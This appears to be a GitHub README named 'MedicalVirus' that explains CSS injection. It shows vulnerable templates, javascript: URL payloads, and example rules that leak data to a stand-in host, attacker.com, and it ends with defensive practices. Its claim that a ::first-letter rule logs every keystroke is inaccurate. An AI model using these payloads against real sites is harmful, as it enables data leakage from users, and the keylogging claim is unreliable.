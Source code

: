 # MedicalVirus

Code injection through CSS is a concept often associated with exploiting vulnerabilities in web applications, particularly when an attacker can inject or manipulate CSS in a way that triggers unintended behavior. Let's break this down:

---

### **1. Understanding CSS Injection**
CSS injection occurs when a web application allows user input to be included in a style block or as part of a style attribute without proper sanitization. If attackers can control the input, they may manipulate how the page is displayed or interact with sensitive data.

### **2. Example of CSS Injection**
Suppose a web application has an input form that includes user-supplied input directly in the `<style>` tag or `style` attribute. An attacker might exploit it like this:

#### Vulnerable Code:
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <title>CSS Injection Example</title>
    <style>
        .user-style {
            color: black; /* User-controlled input */
        }
    </style>
</head>
<body>
    <div class="user-style">User content here</div>
</body>
</html>
```

If the `color` value is derived from user input without sanitization, an attacker might inject:

```css
color: black; background-image: url('javascript:alert(1)');
```

This could trigger a JavaScript execution in some browsers, but modern browsers typically block `javascript:` URLs in CSS due to security updates.

---

### **3. CSS Injection Leading to Information Disclosure**
In some cases, attackers might leverage CSS to infer sensitive information (e.g., the dimensions or visibility of certain elements):

#### Example:
```css
input[type="password"] {
    background: url('http://attacker.com/log?password-input-exists');
}
```

This sends a request to the attacker's server whenever the targeted CSS rule matches, which might reveal information about the user's form inputs.

---

### **4. Defenses Against CSS Injection**
To protect against CSS injection, follow these best practices:

- **Validate and Sanitize Inputs:** Never trust user input directly. Use input validation and sanitization techniques.
- **Content Security Policy (CSP):** Implement a strict CSP to prevent loading malicious resources or executing inline styles/scripts.
- **Escape Outputs:** Properly escape any user-supplied input included in CSS or HTML attributes.
- **Use Whitelists for CSS Properties:** Limit allowable values to a predefined safe set.
- **Avoid Inline CSS:** Avoid dynamically adding user-controlled data to inline styles.

---

### **5. CSS Injection with Inline Styles**
Injection can also occur in attributes like `style`. For example:

```html
<div style="background-color: {{userInput}}">Content</div>
```

If `userInput` is not sanitized, it could contain something like:

```css
background-color: red; background-image: url('javascript:alert(1)');
```

This could manipulate styles or attempt to execute JavaScript.

---

### **6. Real-World Attack Example**
CSS injection can be used creatively to perform pixel-stealing attacks or keylogging:

#### Example: Keylogging
Attackers inject styles that reveal information about keystrokes:
```css
input[type="text"]::first-letter {
    background: url('http://attacker.com/char?c=a');
}
```

For every keystroke, the browser sends a request to `attacker.com` with the input's first letter.

---

### Summary
While CSS injection isn't as directly dangerous as JavaScript injection (e.g., XSS), it can still lead to:

- Visual manipulation of the page.
- Information leakage.
- Resource-based attacks.

To prevent CSS injection, always validate and sanitize user inputs, escape outputs, and enforce a strong Content Security Policy.
